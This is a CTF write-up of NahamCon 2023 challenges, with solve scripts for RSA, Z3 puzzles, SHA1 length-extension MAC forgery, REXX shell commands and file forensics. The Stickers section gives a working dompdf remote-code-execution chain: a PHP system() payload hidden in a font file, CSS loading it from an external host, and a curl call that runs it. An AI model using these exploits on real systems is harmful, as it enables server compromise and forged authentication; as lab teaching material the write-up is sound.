




A really cool CTF challenge as part of Nahamcon. 
<!--more-->
### Challenges
#### RSA Intro
`What is RSA? Really Spicy Applesauce? Ridiculously Smart Alpaca? Random Squirrel Alliance? Nope, not at all. Just some dudes who made a cool public-key cryptosystem!`

This was a 3-in-1 RSA challenge. The generator script splits the flag into 3 parts and encodes each part using different RSA scheme. Each scheme has to be solved using a different technique. 

```python
    # PART 1
    e = 0x10001
    p = getStrongPrime(1024)
    q = getStrongPrime(1024)
    n = p*q
    ct = pow(b2l(flag1.encode()), e, n)
    OUT.write(f'*** PART 1 ***\ne: {e}\np: {p}\nq: {q}\nct: {ct}')

    # PART 2
    e = 3
    p = getStrongPrime(1024)
    q = getStrongPrime(1024)
    n = p*q
    ct = pow(b2l(flag2.encode()), e, n)
    OUT.write(f'\n\n*** PART 2 ***\ne: {e}\nn: {n}\nct: {ct}')

    # PART 3
    e = 65537
    p = getPrime(24)
    q = getPrime(24)
    n = p*q

    fl = round(len(flag3)/4)
    f3_parts = [flag3[i:i+4] for i in range(0, len(flag3), 4)]
    assert ''.join(f3_parts) == flag3
    ct_parts = []
    for part in f3_parts:
        pt = b2l(part.encode())
        assert pt < n
        ct = pow(pt, e, n)
        ct_parts.append(ct)

    OUT.write(f'\n\n*** PART 3 ***\ne: {e}\nn: {n}\nct: {ct_parts}')
```
The solutions for each part are found in the annotated solution below. 

```python
    # we are given e, p, q and ct
    # we know p and q, do a normal decryption 
    phi = (p-1)*(q-1)
    d = inverse(e, phi)
    m = pow(ct, d, p*q)
    part1 = long_to_bytes(m)

    # we are given e, n and ct
    # small e, just take the e-th root (cuberoot)
    m,result = gmpy2.iroot(ct, e)
    if (result):
        part2 = long_to_bytes(int(m))

    # we are given e, n and list of ct parts
    # small n. Use FactorDB to factor N to get p & q.
    p = 8885719
    q = 12121807

    phi = (p-1)*(q-1)
    d = inverse(e, phi)

    flag = part1 + part2 
    for c in ct: 
        m = pow(c, d, n)
        flag += long_to_bytes(m)
    print(flag.decode())
    # flag{361862d054e2a9abe41cc315517cfa31}
```
#### RSA Outro
`I didn't feel like fitting this one in the RSA Intro, so here is an RSA Outro! `

In this weird twist of the RSA challenge, the public modulus `n` is unknown, but the private values of `phi` and `d` are known. We are also given the relationship between `p` and `q`, the private prime factors of `n`. 

We are given that \\(p = 2q + 1\\). Knowing that 
$$ 
    \phi = (p - 1) * (q - 1)\\\
    \phi = (2q +1 -1) * (q - 1)\\\
    \phi = 2q^2 - 2q\\\
$$

We can set up a symbolic equation to determine `q`, and then `p`, eventually `n`.

The solution is:
```python
    from z3 import *
    e= 65537
    # We are given d, phi and ct

    S = Solver()
    V = Int('q')
    S.add(2*(V**2) - 2 * V == phi)
    S.add(V > 0)

    if (S.check()):
        M = S.model()
        print(str(M))
        q = M[V].as_long()
        p = 2 * q + 1
        n = p * q
        print(long_to_bytes(pow(ct, d, n)).decode())
        # flag{8b76b85e7f450c39502e71c215f6f1fe}
    else:
        print("unsat: no solution")
```

#### Forge Me 1

`Can you break my hashed-based MAC? Below are some resources that may be useful.`
* [SHA1 RFC](https://www.rfc-editor.org/rfc/rfc3174)
* [Length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack)

The challenge description helpfully provides the link to the SHA1 RFC and a clue about the length extension attack. Further exploring the length extension attack on SHA1 to achieve HMAC forgery. Forgery refers to the fact that we can take a valid message and its tag and predict a new message and its tag, that can be validated. Here is a good explanation of it : 
* https://crypto.stackexchange.com/questions/3978/understanding-the-length-extension-attack

We are given two source files: 
* `crypto.py`: This seems to be a standard implementation of the SHA1 hashing algorithm. 
* `oracle.py`: This is the implementation of the hashing oracle, which implements the following methods: 
```bash
    Can you break my hashed-based MAC?

    What would you like to do?
        (1) MAC Query
        (2) Verification Query
        (3) Forgery
        (4) Exit

    Choice: 
```
The plan of attack is the use `Option #1` to generate a valid tag for a sample message, and then apply a length extension attack to create a new message, with a predictable tag and invoke `Option #3` to verify the forgery. If we are successful, we would get the flag. 

```python
    KEYLEN = 64
    TAGLEN = 20 # SHA1() tag is 20 bytes

    ...

    # H(key || msg) == tag
    def vf_query(conn, key, first_part=None):
        conn.sendall(b'msg (hex): ')
        msg = conn.recv(1024).strip()
        conn.sendall(b'tag (hex): ')
        tag = conn.recv(1024).strip()

        try:
            m = unhexlify(msg)
            calc_t = hashed_mac(msg, key)
            print(f"Msg: {msg}  --> {calc_t} with key: {key}")
            msg = m
            # The message must inlude a given part in it. This would be the genuine message, with a known-to-be-good tag. 
            if first_part is not None and first_part not in msg:
                conn.sendall(f'Yoinks scoobs! Ya gotta include the first part\n'.encode())
            elif len(tag) != TAGLEN*2: 
                conn.sendall(f'Invalid tag length. Must be {TAGLEN} bytes\n'.encode())
            else:
                t_ret = hashed_mac(msg, key)
                return t_ret.encode() == tag, msg
        except Exception as e:
            conn.sendall(b'Invalid msg format. Must be in hexadecimal\n')
        return False, b''
```

Searching for previous CTF writeups for SHA1 Length Extension Attacks, led me to this [pure python implementation](https://github.com/stephenbradshaw/hlextend/) of the algorithm.  The key method in the module is:
```python
    extend(appendData, knownData, secretLength, startHash):
    # Performs a hash length extension attack.  Returns the bytestring to
    # use when appending data.
```
Putting it all together, the approach is as follows: 
1. Start with an arbitrary known message and get its tag from the oracle.
1. Use the hash length extention module to extend the message with the required text `b'I guess you are just gonna have to include this!'` ` and get the predicted hash, using the known keylength=64. 
1. Submit the extended message and the predicted tag as the proof of forgery and get the flag. 

The complete solution is similar to this: 
```python
    msg = b'bazooka'
    keylen = 64
    msg_hex = binascii.hexlify(msg)

    # I used the given signature as the extension, you can use it as the original message too.
    ext = b'I guess you are just gonna have to include this!'

    # get the tag for a known message 
    C = remote('challenge.nahamcon.com', 31837)
    C.recvuntil(b'Choice: ')
    C.sendline(b'1')
    C.recvuntil(b'hex): ')
    C.sendline(msg_hex)
    C.recvuntil(b'H(key || msg):')
    first_tag = C.recvline().strip()
    print(f"{msg=}  tag={first_tag}")

    # extend the message and predict the tag
    sha = hlextend.new('sha1')
    query = sha.extend(ext, msg, keylen, first_tag.decode())
    umac = sha.hexdigest()
    print(f"{query=}\n {umac=}")

    # submit the extended message and the tag as the proof of forgery
    C.recvuntil(b'Choice: ')
    C.sendline(b'3')
    C.recvuntil(b'msg (hex):')
    C.sendline(binascii.hexlify(query))
    C.recvuntil(b'tag (hex):')
    C.sendline(umac.encode())

    # get the flag
    C.interactive()
```

#### Forge Me 2
`Can you break my hashed-based MAC again? Below are some resources that may be useful.`

This challenge is similar to `Forge Me 1`, with some key differences. 

1. The original message is a set of randomly chosen words.
1. The extension for the the forgery is pre-determined for us - it is John Hammond's YT channel
1. The length of the key is randomly chosen value between 10 and 120.

We need to determine the appropriate key length first and then we can apply the same solution as `Forge Me #1`. We first get the actual tag for the original message of randomly chosen words. We would then extend the message with arbitrary text (`b'abc'`) and verify the given hash with key lengths from `10` to `108`. While the key lengh is randomly chosen between `10` and `120`, it is highly probable that we will hit upon the correct key length.

```python
    # extend the message with the given key len and return the answer from the verification call 
    def verifyKeyLen(conn, msg, msgtag, keylen, ext):
        print(f"Testing with key length = {keylen} and ext = {ext}")
        conn.recvuntil(b'Choice: ')
        
        sha = hlextend.new('sha1')
        query = sha.extend(ext, msg, keylen, msgtag)
        umac = sha.hexdigest()
        
        conn.sendline(b'2') #verify
        conn.recvuntil(b'msg (hex): ')
        conn.sendline(binascii.hexlify(query))
        conn.recvuntil(b'tag (hex): ')
        conn.sendline(umac.encode())
        answer = conn.recvline().strip()
        print(f"{keylen=} {query=}\n {umac=} \n {answer=}")
        return True if answer == b'True' else False

    # Actual forgery by extending the message with INJECTION, with the key length we determined. 
    def forgeMessage(conn, msg, msgtag, keylen, INJECTION):

        sha = hlextend.new('sha1')
        query = sha.extend(INJECTION, msg, keylen, msgtag)
        umac = sha.hexdigest()
        print(f"{keylen=} {query=}\n {umac=}")

        conn.recvuntil(b'Choice: ')
        conn.sendline(b'3')
        conn.recvuntil(b'msg (hex):')
        conn.sendline(binascii.hexlify(query))
        conn.recvuntil(b'tag (hex):')
        conn.sendline(umac.encode())

    INJECTION = b'https://www.youtube.com/@_JohnHammond'

    C = remote('challenge.nahamcon.com', 31738)

    C.recvuntil(b'first_part: ')
    rand_words = C.recvline().strip()
    msg_hex = binascii.hexlify(rand_words)

    C.recvuntil(b'Choice: ')
    C.sendline(b'1')
    C.recvuntil(b'hex): ')
    C.sendline(msg_hex)
    C.recvuntil(b'H(key || msg):')
    first_tag = C.recvline().strip().decode()

    print(f"{rand_words=}  tag={first_tag}\n\n")

    # loop through different key lengths with arbitrary extension until we get a successful match
    key_len = 10
    while(key_len < 109):
        if (verifyKeyLen(C, rand_words, first_tag, key_len, b'abc')):
            print(f"Key length found = {key_len}")
            break
        else:
            key_len+=1
    # 
    forgeMessage(C, rand_words, first_tag, key_len, INJECTION)
    C.interactive()
```

#### Just One More
`Just one more?`

We are given the following file and the corresponding output, which contains two lists. One with the random numbers, the other with the sumproduct of the flag characters and the list of random numbers. After each iteration, the array of random numbers is shuffled right and moves the last number to the head of the list. 

```python
    OUT = open('output.txt', 'w')
    FLAG = open('flag.txt', 'r').read().strip()
    N = 64

    l = len(FLAG)
    arr = [random.randint(1,pow(2, N)) for _ in range(l)]
    OUT.write(f'{arr}\n')

    s_arr = []
    for i in range(len(FLAG) - 1):
        s_i = sum([arr[j]*ord(FLAG[j]) for j in range(l)])
        s_arr.append(s_i)
        arr = [arr[-1]] + arr[:-1]

    OUT.write(f'{s_arr}\n')
```
After some analysis, we can see that we do not have sufficient info to reverse engineer the sums to get back the flag. So, we should use symbolic variables for the flag characters and recreate the array of sums and set a constraint to equate them to the values in the array.  

```python
    from z3 import * 

    S = Solver()
    l = len(arr)
    print(l)
    print(len(s_arr))

    V = IntVector('x', l)
    S.add( V[0] == ord('f'))
    S.add( V[1] == ord('l'))
    S.add( V[2] == ord('a'))
    S.add( V[3] == ord('g'))
    S.add( V[4] == ord('{'))
    S.add( V[l-1] == ord('}'))
    # add the remaining domain constraints
    for i in range(5, l-1):
        S.add(Or(And(V[i]>= ord('0'), V[i]<= ord('9')), And(V[i]>= ord('a'), V[i]<= ord('f'))))
    
    for i in range(len(arr) - 1):
        S.add( s_arr[i] == sum( arr[j] * V[j] for j in range(l)))
        arr = [arr[-1]] + arr[:-1]

    print(S.check())
    M = S.model()

    print(str(M))
    print(''.join(chr(x.as_long()) for x in [M[V[y]] for y in range(l)]))
    # flag{aad9ba9b3fdfa4cc6f7e2e18d0dcbbab}
```
This script finds a satisfactory condition and prints the flag. 

#### Regina
`I have a tyrannosaurus rex plushie and I named it Regina! Here, you can talk to it :)`

```
/usr/local/bin/regina: REXX-Regina_3.9.4(MT) 5.00 25 Oct 2021 (64 bit)
```
Connecting via SSH gives us the banner. Googling REXX-Regina indicates that REXX is a programming language that was invented by IBM. It is spoken with other ancient incantations like TSO, ISPF, COBOL, JCL, VTAM. 

Now that we know the programming language, the next step was to figure out the means of entering the input and executing it. Suspecting that the terminal is expecting program input from `<stdin>`, I used variants of `say 'hello world'  <Ctfl+D>` to have it successfully execute the command.   From that point, it was a matter of discovering our current environment, figuring out the flag's location (`flag.txt` in the current directory), and displaying it. 

```
/usr/local/bin/regina: REXX-Regina_3.9.4(MT) 5.00 25 Oct 2021 (64 bit)

options arexx_bifs
say getenv('FLAG')
say linein('flag.txt')
'uname -a'
'ls -lsart'
'cat flag.txt'
<Ctrl + D>

flag{2459b9ae7c704979948318cd2f47dfd6}

Linux regina-8dd9dfd157fc05b6-5b87db5c46-9dq64 5.15.89+ #1 SMP Sat Mar 11 10:24:08 UTC 2023 x86_64 Linux

total 24
     4 -rw-r--r--    1 root     root            39 Jun 14 17:52 flag.txt
     4 -rwxr-xr-x    1 root     root            65 Jun 14 17:52 .user-entrypoint.sh
     4 drwxr-xr-x    1 root     root          4096 Jun 14 17:52 ..
     4 -rwxr-xr-x    1 user     user          3846 Jun 14 17:52 .bashrc
     4 -rw-r--r--    1 user     user            17 Jun 14 17:52 .profile
     4 drwxr-sr-x    1 user     user          4096 Jun 14 17:52 .

flag{2459b9ae7c704979948318cd2f47dfd6}
```

`say linein('flag.txt')` is the REXX native way to display the flag,  `'cat flag.txt'` spawns a shell command from REXX. Both of them would work for this challenge. 

#### Blobber
`This file is really... weird... `

Running `file` on the attachment tells us that it is a SQLITE3 database file. We can use the `sqlite3` utility to examine it further.
```sql
(py3) % sqlite3 blobber.sqlite 
    SQLite version 3.32.3 2020-06-18 14:16:19
    Enter ".help" for usage hints.
    sqlite> .schema
    CREATE TABLE blobber (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                name TEXT NOT NULL,
                data BLOB
            );
    CREATE TABLE sqlite_sequence(name,seq);
    -- Only one row with actual content in the data (blob) column
    sqlite> select count(*) from blobber where length(data) > 0;
    1
    -- capture the content into a file
    sqlite> .output blob.hex
    sqlite> select hex(data) from blobber where length(data) > 0;
```

```bash
    (py3)% xxd -r -p <blob.hex >blob.bz2
    (py3)% bzip2 -d blob.bz2
    (py3)% file blob
        blob: PNG image data, 1301 x 128, 8-bit/color RGB, non-interlaced
    (py3)% mv blob blob.png
```

The hardest part of the challenge was transcribing the flag accurately from the image to text and submitting it. 

#### Tiny Little Fibers
`Oh wow, it's another of everyone's favorite. But we like to try and turn the ordinary into extraordinary!`

The given file seems to be a standard JPEG file. When `binwalk` did not provide any info, we look for the JPEG Start of Image (SOI) and End of Image (EOI) markers. We can see the characters for `flag{` following the EOI marker. Calculating the offset and dumping the bytes following the EOI, gives us the flag. 

```bash
    (py3)% file tiny-little-fibers 
    tiny-little-fibers: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 2056x1371, components 3

    (py3)% xxd tiny-little-fibers| grep -i ffd8
    00000000: ffd8 ffe0 0010 4a46 4946 0001 0100 0001  ......JFIF......

    (py3)% xxd tiny-little-fibers| grep -i ffd9
    0004c130: cf3f ffd9 6600 6c00 6100 0a00 6700 7b00  .?..f.l.a...g.{.
    00097ec0: 1b02 5816 72e1 1321 7115 e2f8 cf3f ffd9  ..X.r..!q....?..

    (py3)% printf "%d\n" $((16#4c134))
    311604

    (py3)% xxd -s +311604 tiny-little-fibers | more
    0004c134: 6600 6c00 6100 0a00 6700 7b00 3200 0a00  f.l.a...g.{.2...
    0004c144: 3200 6300 3500 0a00 3300 3400 6300 0a00  2.c.5...3.4.c...
    0004c154: 3500 6100 6200 0a00 6500 6100 3800 0a00  5.a.b...e.a.8...
    0004c164: 3400 6200 6600 0a00 3600 6300 3100 0a00  4.b.f...6.c.1...
    0004c174: 3100 3900 3300 0a00 6500 3200 3600 0a00  1.9.3...e.2.6...
    0004c184: 3300 6600 3700 0a00 3200 3500 3900 0a00  3.f.7...2.5.9...
    0004c194: 6600 7d00 0a00 0a00 0000 0013 a4fe 0014  f.}.............

    (py3)% xxd -s +311604 -c 100 -p tiny-little-fibers | head -1 | sed -e 's/00//g' | xxd -r -p | tr -d '\n'
    flag{22c534c5abea84bf6c1193e263f7259f}
```

#### Online Chatroom
`We are on the web and we are here to chat! `

```go

    func echo(w http.ResponseWriter, r *http.Request) {
        ...
			case strings.HasPrefix(string(message), "!history"):
				indexStr := strings.TrimPrefix(string(message), "!history ")
				index, err := strconv.Atoi(indexStr)
				if err != nil || index < 1 || index > len(chatHistory) {
					c.WriteMessage(websocket.TextMessage, []byte("Error: Please request a valid history index (1 to "+strconv.Itoa(len(chatHistory)-1)+")"))
					continue
				}
        ...
func main() {
    ...
	flagStr := string(flagData)
	chatHistory = append(chatHistory, "User5: Aha! You're right, I was here before all of you! Here's your flag for finding me: " + flagStr)
    ...

```
A few things of interest. 
1. The chatroom seems to have a `!history` command to review prior stored messages. 
1. The `valid` messages in the information message seems to be one less than the actual number of messages in the `chatHistory`.
1. So we will try to request a message with the index that is one more than the maximum number indicated to access the secret message with the flag. 

```
> !history
Error: Please request a valid history index (1 to 6)

> !history 7
User5: Aha! You're right, I was here before all of you! Here's your flag for finding me: flag{c398112ed498fa2cacc41433a3e3190b} 
```
#### Stickers
`Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!`

We are given a web site that purports to sell stickers. The website presents an order form. 


Upon submitting the form, it generates a PDF document representing the order form including some of the data we provided as the input. 


The URL is `http://challenge.nahamcon.com:30331/quote.php?organisation=My+Org+Name&email=email%40email.com&small=1&medium=2&large=4`. This tells us that the backend is in PHP and it inserts the organization name and email into the generated PDF. 

Searched Google for PHP PDF exploits and one of the first hits was this writeup of the CVE by Snyk. The second link was a coded exploit on GitHub by Positive Security. 
* https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/
* https://github.com/positive-security/dompdf-rce/
* https://positive.security/blog/dompdf-rce

These sites have a very detailed writeup on the vulnerability. I will summarize the steps I used. 

1. create a exploit font file by opening a font file and inserting a RCE code into it. 
```php
    <?php system("cat /flag.txt"); ?>
```

2. Create a exploit CSS that refers to the font file in an accessible location. Store the CSS in an accessible location as well.
```css
    @font-face {
        font-family:'expfont';
        src:url('https://raw.githubusercontent.com/meashiri/ctf-writeups/main/files/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
    }
```
Note the name of the font you used. You will need it later. 

3. Inject a reference to the CSS in the `organization name` field of the form on the challenge web server


4. Press submit and verify that the PDF was successfully generated. The URL would be similar to the following: 
`http://challenge.nahamcon.com:30331/quote.php?organisation=%3Clink+rel%3Dstylesheet+href%3D%27https%3A%2F%2Fraw.githubusercontent.com%2Fmeashiri%2Fctf-writeups%2Fmain%2Ffiles%2Fexploit.css%27%3E&email=email%40email.com&small=1&medium=2&large=4`

5. Now, the font is cached in the DomPDF folder on the server and can perform RCE if we invoke it directly. 

6. The path of the cached file is `<webroot>/dompdf/lib/fonts/<font name>_normal_<md5 hash>.php`

7. The md5 is the md5 of the URL of the font. It can be calculated as: 
```bash
    % echo -n "https://raw.githubusercontent.com/meashiri/ctf-writeups/main/files/exploit_font.php" | md5
    f00d4e3ed0b0844e00eda7061397debb
```
8. Invoking the cached font on the web server will give us the font file with the results of the remote command. 
```bash
    % curl http://challenge.nahamcon.com:30331/dompdf/lib/fonts/expfont_normal_f00d4e3ed0b0844e00eda7061397debb.php -o -      

    � dum1�cmap
            `�,glyf5sc��head�Q6�6hhea��($hmtxD
    loca
    Tmaxp\ nameD�|8dum2�
                        -��-����
    :83#5:08��_<�
                @�8�&۽
    :8L��

    :D

    6				s
    flag{a4d52beabcfdeb6ba79fc08709bb5508}
```
or from the browser:


#### One-Zero

```bash
    % $0 < *
```
#### One-Zero-Two

```bash
    % $0 < *
```

We get a [cool certificate](CertificateWBL.png) that shows that we were placed 67th out of 2563 teams. 

### Resources and Links
* https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/
* https://github.com/positive-security/dompdf-rce/
* https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf
* https://crypto.stackexchange.com/questions/3978/understanding-the-length-extension-attack
* https://cothan.blog/post/tamuctf2019-cr4ckz33c0d3-with-angr/
* https://gist.github.com/mlashley/224a91cff0b1712e161121817b1e24b3
* https://notateamserver.xyz/nahamcon-2023-crypto/ (matrix based solve for JOM)
* https://github.com/daffainfo/ctf-writeup/tree/main/NahamCon%20CTF%202023


### List
|Category|Challenge|Description
|----|----|----
|Binary Exploitation|All Patched Up|
|Binary Exploitation|Limitations|
|Binary Exploitation|Nahm Nahm Nahm|
|Binary Exploitation|Oboe|
|Binary Exploitation|Open Sesame|
|Binary Exploitation|Web Application Firewall|
|Binary Exploitation|Weird Cookie|
|Cryptography|ForgeMe 1| SHA1 length extension attack for HMAC forgery
|Cryptography|ForgeMe 2| SHA1 length extension attack for HMAC forgery, unknown salt len
|Cryptography|Just One More| Linear programming, solved with Z3
|Cryptography|RSA Intro| 3 different RSA techniques
|Cryptography|RSA Outro| unknown n, Z3 to determine q and p
|Cryptography|Signed Jeopardy|
|DevOps|Pirates|
|DevOps|Supplier|
|Feedback|Feedback|
|Forensics|Fetch|
|Forensics|IR #1|
|Forensics|IR #2|
|Forensics|IR #3|
|Forensics|IR #4|
|Forensics|IR #5|
|Forensics|Perfectly Disinfected|flag in PDF title
|Forensics|Raided|get SSH host, user and private key using strings
|Miscellaneous|Flow|
|Miscellaneous|Goose Chase|
|Miscellaneous|One Zero Two|
|Miscellaneous|One Zero|
|Miscellaneous|Operation Eradication|
|Miscellaneous|Sneaky Shot|
|Miscellaneous|Where's My Water?|
|Miscellaneous|Wordle Bash| priv esc with sudo
|Miscellaneous|Zombie| nohup
|Mobile|Fortune Teller|
|Mobile|JNInjaspeak|
|Mobile|Nahamstagram|
|Mobile|Red Light Green Light|
|Mobile|Where's Waldo|
|Networking|No Big Deal|
|OSINT|Geosint 1|
|OSINT|Geosint 2|
|OSINT|Geosint 3|
|OSINT|Geosint 4|
|Reverse Engineering|Mayhem|
|Reverse Engineering|The Sandbox|
|Reverse Engineering|ur_a_wizard|
|Reverse Engineering|writeright|
|Warmups|Blobber|sqlite blob data
|Warmups|Fast Hands|
|Warmups|Glasses|
|Warmups|Ninety One|
|Warmups|Online Chatroom|
|Warmups|Read The Rules|
|Warmups|Regina| REXX emulator
|Warmups|Technical Support|
|Warmups|tiny little fibers| JPEG forensics
|Web|Hidden Figures|flag from images in B64 in HTML
|Web|Marmalade 5|
|Web|Museum|
|Web|Obligatory|
|Web|Star Wars|
|Web|Stickers| DOMPDF RCE exploit
|Web|Transfer|